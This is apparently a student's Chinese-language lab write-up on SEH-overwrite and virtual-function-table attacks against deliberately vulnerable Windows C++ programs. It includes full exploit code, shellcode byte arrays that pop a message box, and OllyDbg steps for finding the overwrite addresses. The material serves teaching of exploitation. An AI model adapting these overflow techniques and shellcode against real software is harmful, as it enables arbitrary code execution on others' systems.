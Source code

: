 ```yaml
---
title: 虚函数攻击与SEH 
date: 2019-12-12 23:12:35 
tags:
  - "网络空间安全"
  - "软件安全"
categories:
  - ["实验","软件安全"]
  - ["漏洞","SEH"]
  - ["漏洞","虚函数"]
comments: true

---
```


## 目标

了解SEH和虚函数攻击两种攻击方式，通过调试代码来理解进行上述攻击的过程。
<!-- more -->

## 测试步骤与结果

### SEH攻击

```c++ main.cpp
#include<windows.h>
#include<string>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
"\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x48\xFE\x12\x00";
void MyExceptionHandler(void)
{
	printf("got an exception,press Enter to kill process!\n");
	getchar();
	ExitProcess(1);
}
void test(char* input)
{
	char buf[200];
	//printf("%d",strlen(shellcode));
	int zero=0;
	__asm int 3
	__try
	{
		strcpy(buf,input);
		zero=4/zero;
	}
	__except(MyExceptionHandler()){}
}
int main()
{
	LoadLibrary("user32.dll");
	test(shellcode);
	//test("abc");
	system("pause");
	return 0;
}
```

在此实验中，我们定义了一个自定义的错误处理函数`MyExceptionHandler()`，可以观察到，`__try`中试图除零，因此引发了一个异常，这个异常将由我们自定义的错误处理函数处理。如果`strcpy`操作溢出了，并精确地将栈帧中的SEH异常处理句柄修改为`shellcode`的入口地址时，操作系统将会错误地使用shellcode去处理除0异常，代码植入成功。 
{% note info %} 
前面的<code>__asm int 3</code>是为了使得调试器能够以attach的方式进行调试。 
{% endnote %}

1. 在ollydbg端完成实时调试配置，将它设置为实时调试器。 {% asset_img 1.png %}
2. 启动程序，在运行到int 3断点时成功进入ollydbg中。 
   {% note warning %} 
   初次进入时可能会有这个错误，设置一下udd和plugins的目录即可。 
   {% asset_img 2.png %} {% asset_img 3.png %} 
   {% endnote %}
3. 找到`strcpy`函数，并为其设置一个断点。 {% asset_img 4.png "可以看到这是在401158处" %} {% asset_img 5.png %}
4. 此时可以观察到shellcode的起始地址为`0x12fe48`。 {% asset_img 6.png %}
5. 触发异常时，我们查看SEH链：（查看→SEH链） 
   {% grouppicture 2-2 %} 
   {% asset_img 7.png %} 
   {% asset_img 8.png %} 
   {% endgrouppicture %}
6. 上方的第一个地址指向了下一个SEH记录：`0x12ffb0`。接着是SEH异常处理程序，我们只要把`0x12ff1c`的内容改成shellcode的起始地址就可以了。
7. 第一个SEH地址是`0x12ff18`，异常处理地址是`0x12ff1c`，我们的shellcode应该填充这些差值空间，总共有212个字节（0x12ff1c-0x12ff18） 
   {% note success no-icon %}
   回头看一眼我们要填入的shellcode，最后四字节(<code>\x48\xFE\x12\x00</code>)恰好是shellcode的起始地址！ 
   {% endnote %}
8. 去掉系统中断（`asm int 3`）后的运行效果如下，弹出对话框正是shellcode预期的功能。 {% asset_img 9.png %}

### 虚函数攻击

```c++ main.cpp
# include <windows.h>
# include <iostream.h>
char shellcode1[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
"\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x5C\xE3\x42\x00";

class vf {
	public:
	char buf[200];
	virtual void test(void) {
		cout<<"Class Vtable::test()"<<endl;
	}
}
;
vf overflow, *p;
void main(void) {
	LoadLibrary("user32.dll");
	char * p_vtable;
	p_vtable=overflow.buf-4;
	//point to virtual table //__asm int 3 //reset
	fake virtual table to 0x004088cc //the address may need to adjusted via runtime debug p_vtable[0]=0x30; p_vtable[1]
	=0xE4;
	p_vtable[2]=0x42;
	p_vtable[3]=0x00;
	strcpy(overflow.buf,shellcode1);
	//set fake virtual function pointer
	p=&overflow;
	p->test();
}
```

1. 在`strcpy`处可能会触发溢出，修改虚函数指针。`Vtable`的值需要经过一次调试才可得知。  
   {% asset_img 10.png %} 
   {% asset_img 11.png %}

   从这两张图可以看出，缓冲区的入口为`0x0042e35c`。虚表指针位于缓冲区前，`p_vtable`定位到了这个指针，它指向了`0x0042e358`处，进一步证明缓冲区入口正确。

2. Shellcode的末尾后四个字节地址应该是`0x0042E430`。 {% asset_img 12.png %}

3. 更换shellcode和地址后，成功弹框，shellcode成功执行。 {% asset_img 13.png %}

## 测试结论

{% grouppicture 2-2 %} 
{% asset_img SEH.jpg "SEH异常处理攻击图示" %} 
{% asset_img vf.jpg "虚函数攻击图示" %} 
{% endgrouppicture %}

## 思考题

```c++
# include <windows.h>
# include <iostream.h>
# include <stdio.h>
class vf {
	public:
	char buf[200];
	virtual void test(void) {
		cout<<"Class Vtable::test()"<<endl;
	}
}
;
class vf1 {
	public:
	char buf[64];
	virtual void test(void) {
		cout<<"Class Vtable1::test()"<<endl;
	}
}
;
vf overflow, *p;
vf1 overflow1, *p1;
void main(int argc, char* argv[]) {
	LoadLibrary("user32.dll");
	//char * p_vtable;
	//p_vtable=overflow.buf-4;
	//point to virtual table
	//__asm int 3 
	//reset fake virtual table to 0x004088cc 
	//the address may need to adjusted via runtime debug
	//p_vtable[0]=0x30; 
	//p_vtable[1]=0xE4; 
	//p_vtable[2]=0x42; 
	//p_vtable[3]=0x00;
	if (argc == 3) {
		strcpy(overflow.buf,argv[1]);
		strcpy(overflow1.buf,argv[2]);
		//set fake virtual function pointer
		p=&overflow;
		p->test();
	} else {
		printf("vf argv1 argv2\n");
	}
}
```

1. 这应该是利用虚函数攻击的一个例子。其中定义了两个类：`vf`和v`f1`，`vf`具有200字节的`buf`大小，而`vf1`具有64字节的`buf`大小。我们需要提供两个参数，一个复制到`vf`的`buf`区，另一个复制到`vf1`
   的`buf`区中，要通过`vf`类的`test`方法调用shellcode。 {% asset_img 思考1.png %}
2. `argv[1]`被复制到`overflow.buf`中，起始地址为`0x42eb5c`。算出其终止地址应为`0x42ec20`。 
   {% asset_img 思考2.png %} 
   {% asset_img 思考3.png "前面四个字节0x0042801c应该是vtable的地址，一会我们要覆盖掉它" %}

3. 第二个`strcpy`时，将第二个参数拷贝到`overflow1.buf`中，其首地址为`0x42eb14`，在`overflow`上方，我们想到应该可以利用这个关系，溢出这个64字节的`buf`，覆盖掉`vtable`，让其调用shellcode 
   {% asset_img 思考4.png %} {% asset_img 思考5.png %}

4. 构造shellcode如下，其中插入`vf`中的shellcode1写入弹框代码，插入`vf1`中的shellcode2向下覆盖掉`vf1`的`vtable`
   ，变为shellcode1的尾地址，而令shellcode1中最后四字节为shellcode第一个指令的地址（即`overflow.buf`的起始位置）。在这个构造下，可以成功执行shellcode，以弹出对话框。 
   {% grouppicture 2-2 %} {% asset_img argv[1].png "argv[1]" %} {% asset_img argv[2].png "argv[2]" %} {% endgrouppicture %}
   {% asset_img 思考8.png %}

5. 利用成功截图。 {% asset_img 思考9.png %}
